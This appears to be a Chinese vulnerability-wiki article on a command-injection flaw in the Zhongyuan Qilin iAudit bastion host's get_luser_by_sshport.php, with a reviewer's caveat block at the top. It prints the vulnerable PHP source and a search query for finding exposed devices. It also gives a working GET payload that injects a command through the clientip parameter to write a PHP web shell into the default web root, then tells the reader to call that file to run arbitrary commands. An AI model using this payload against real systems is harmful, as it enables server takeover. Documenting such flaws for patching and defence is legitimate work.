


# 中远麒麟 iAudit堡垒机 get_luser_by_sshport.php 远程命令执行漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：中远麒麟iAudit，误放齐治目录
- 本文讨论：get_luser_by_sshport.php clientip/clientport命令拼接
- 版本、权限与配置前提：Web可达、固定可写webroot、PHP旧版未引号数组键兼容；鉴权由include待查
- 资料类型：iAudit命令注入源码复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 明确产品误分类齐治
- sudo只覆盖perl子命令，分号后注入命令不自动root
- 示例未引号$_GET[cmd]有PHP版本依赖；固定目录与补丁版本缺失

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- include鉴权、sudo配置和构建版本待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

中远麒麟 iAudit堡垒机 get_luser_by_sshport.php文件存在命令拼接，攻击者通过漏洞可获取服务器权限

## 漏洞影响

```
中远麒麟 iAudit堡垒机
```

## 网络测绘

```
cert.subject="Baolei"
```

## 漏洞复现

登录页面如下


出现漏洞的文件为 get_luser_by_sshport.php

```
<?php
define('CAN_RUN', 1);
require_once('include/global.func.php');
require_once('include/db_connect.inc.php');
if(empty($_GET['clientip'])){
	echo 'no host';
	return;
}
if(empty($_GET['clientport'])){
	echo 'no port';
	return;
}
$cmd = 'sudo perl test.pl '.$_GET['clientip'].' '.$_GET['clientport'];
exec($cmd, $o, $r);
 $sql = "SELECT luser FROM sessions WHERE addr='".$_GET['clientip']."' and pid='".$o[0]."' order by sid desc limit 1";
$rs = mysql_query($sql);
$row = mysql_fetch_array($rs);
echo $row['luser'];
?>
```

其中 clientip存在命令拼接 使用 ; 分割命令就可以执行任意命令

Web目录默认为 `/opt/freesvr/web/htdocs/freesvr/audit/`

发送Payload

```
https://xxx.xxx.xxx.xxx/get_luser_by_sshport.php?clientip=1;echo+%27%3C?php%20var_dump(shell_exec($_GET[cmd]));?%3E%27%3E/opt/freesvr/web/htdocs/freesvr/audit/test.php;&clientport=1
```




再访问写入的文件执行命令




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
